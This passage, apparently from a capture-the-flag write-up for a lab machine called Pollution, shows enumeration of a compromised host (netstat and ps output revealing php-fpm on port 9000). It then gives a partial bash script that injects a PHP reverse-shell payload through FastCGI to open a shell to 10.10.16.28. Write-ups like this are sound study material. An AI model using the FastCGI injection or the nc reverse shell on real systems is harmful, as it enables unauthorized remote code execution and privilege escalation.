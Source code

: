 **Shell**  
```bash
(remote) www-data@pollution:/dev/shm$ whoami
www-data
```

## Shell

Once we got our shell we can enumerate further

### php-fpm

Using netstat we can see a couple of open ports. Port 9000 catched my eye as this could be an fastcgi application.  

```bash
netstat -tlpn
```

```bash
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:6379            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 ::1:6379                :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  
```

```bash
ps aux | grep fpm
```

```bash
root         975  0.0  1.0 265400 40792 ?        Ss   Dec12   0:09 php-fpm: master process (/etc/php/8.1/fpm/php-fpm.conf)
victor      1115  0.0  0.5 265840 20640 ?        S    Dec12   0:00 php-fpm: pool victor
victor      1116  0.0  0.4 265840 19400 ?        S    Dec12   0:00 php-fpm: pool victor
```

## Privesc to Victor

We'll use [this](https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi) script to escalate our privileges to user "victor" 

```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.28 4001 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
```